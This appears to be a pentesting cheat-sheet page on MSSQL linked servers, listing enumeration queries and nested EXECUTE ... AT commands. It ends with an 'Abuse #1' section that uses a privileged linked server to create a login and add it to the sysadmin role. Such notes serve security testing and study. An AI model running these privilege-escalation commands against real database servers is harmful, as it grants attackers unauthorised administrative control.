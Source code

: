 ```yaml
---
title: "MSSQL Linked Servers"
date: 2024-6-27
tags: ["Database Dumping", "Privilege Escalation In Databases", "Mssql", "Database", "Windows", "Linked Server"]
---
```


### Basic Commands

<small>*Hint: Use double '' to escape ' in mssql*</small>

```console
# Show current server
select @@servername
```

```console
# Show linked servers
select srvname from sysservers;
```

```console
# Show linked servers
enum_links
```

### Execute Query between Linked Servers

```console
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```console
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

---

### Abuse #1: Create Admin User from Privilege Linked Server

```console
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```console
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```
